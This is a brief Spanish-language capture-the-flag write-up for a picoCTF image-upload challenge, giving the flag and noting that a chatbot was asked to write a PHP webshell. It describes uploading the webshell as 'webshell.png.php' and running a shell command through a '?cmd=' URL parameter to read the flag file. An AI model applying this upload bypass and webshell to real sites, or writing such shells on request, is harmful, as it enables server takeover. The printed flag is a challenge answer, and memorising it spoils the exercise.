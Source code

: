 ### Descripción: 
I found a web app that can help process images: PNG images only!

Additional details will be available after launching your challenge instance.
### Solución:
picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_73198bd9}
### Notas:
```shell
le pedimos al chat que nos hiciera un archivo whesball en php despues subimos ese archivo a la página y usamos http://atlas.picoctf.net:62060/uploads/webshell.png.php?cmd=cat%20../G4ZTCOJYMJSDS.txt para qu enos diera la bandera.
```
### Referencias:
chatgpt.com para que nos haga el archivo whesball php